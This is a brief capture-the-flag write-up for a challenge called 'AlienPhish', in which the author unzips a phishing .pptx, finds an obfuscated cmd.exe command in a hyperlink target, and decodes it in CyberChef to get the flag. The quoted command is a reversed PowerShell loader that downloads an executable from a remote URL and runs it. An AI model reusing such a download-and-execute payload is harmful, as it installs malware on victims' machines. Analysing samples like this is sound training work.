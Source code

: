 # AlienPhish

## Finding what to look for:
The first thing that comes to mind then when you saw the .pptx format is that its basically a zip file with bunch of stuff in there 

We can unzip it. with that done now i had much more files to work with.

Most of them were common files so looked around and i found lot of urls looking through wiki i found its usage after that it was simple i found something interesting use of target attribute:

![](https://i.imgur.com/gxYXYBn.png)


```xml=
cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

## Decoding 

looking through that cmd that reverse exe stood out like sore thumb so after opening cyberchef using reverse recipe and using magic/base64(on side note base64 didnt work quite right but after trying magic it gave me right flag you have to play around with alphabets )

![](https://i.imgur.com/19IiiPw.png)

## Resources 

[.pptx format information](https://en.wikipedia.org/wiki/Office_Open_XML_file_formats)
[Cyberchef](https://gchq.github.io/CyberChef/)
